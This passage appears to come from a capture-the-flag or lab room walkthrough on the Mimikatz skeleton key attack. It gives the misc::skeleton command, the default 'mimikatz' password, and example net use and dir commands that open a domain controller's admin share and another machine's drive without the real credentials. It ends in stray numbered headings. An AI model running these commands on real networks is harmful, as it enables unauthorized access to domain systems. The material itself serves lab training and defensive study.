 1.) `misc::skeleton` - Yes! that's it but don't underestimate this small command it is very powerful
Accessing the forest - 

The default credentials will be: "_mimikatz_"  

example: `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

example: `dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques however that is out of scope for this room.
# 112233


# 445566


# 778899


